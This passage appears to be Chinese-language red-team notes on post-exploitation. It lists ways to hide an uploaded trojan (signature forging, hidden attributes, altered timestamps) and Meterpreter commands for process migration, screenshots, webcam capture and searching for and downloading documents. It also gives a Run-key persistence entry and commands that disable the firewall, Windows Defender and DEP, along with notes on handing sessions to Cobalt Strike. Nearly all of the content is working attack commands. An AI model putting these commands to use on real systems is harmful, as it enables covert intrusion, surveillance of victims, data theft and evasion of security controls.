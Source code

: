 [红队技术 - 隐藏上传的程序木马 | Hyyrent blog](https://pizz33.github.io/posts/ffbd3579f38f/)

- 伪造签名：https://github.com/secretsquirrel/SigThief

- 深度隐藏：`attrib +s +h +r xxx.exe`

- 修改文件时间，防止`everything`筛选

## 十、Meterpreter

- use unhook

- ps | grep "explorer.exe"

- migrate xxxx （高危）

- screenshot

- screenshare （不一定来得及）

- search/download

- sysinfo

- getuid, getprivs

- webcam_list 列出摄像头

- webcam_snap

- webcam_stream

- reg createkey -k "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"   -v "Normal" -t "REG_SZ" -d "%AppData%\Honkai.vbs"

- search -f *.docx

解决shell乱码：chcp 65001

关闭防火墙：netsh advfirewall set allprofiles state off

关闭Defender：net stop windefend

关闭DEP：Bcdedit.exe /set {current} nx AlwaysOff

[meterpreter命令总结 - Leticia's Blog](https://uuzdaisuki.com/2020/08/04/meterpreter%E5%91%BD%E4%BB%A4%E6%80%BB%E7%BB%93/)

## 十一、会话传递

[Cobaltstrike 学习笔记（三）CS与MSF联动-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2148912)

msf使用exploit/windows/local/payload_inject模块传递会话给CS，这也是一个危险操作，会被Defender查杀

[MSF 作战手册及联动 CobaltStrike | 离沫凌天๓](https://www.lintstar.top/2021/06/cc6d559a#%E5%90%8E%E6%B8%97%E9%80%8F%E6%A8%A1%E5%9D%97%EF%BC%88Post%EF%BC%89)

## 十二、权限维持

[BorderGate <持久性机制](https://www.bordergate.co.uk/persistence-mechanisms/)
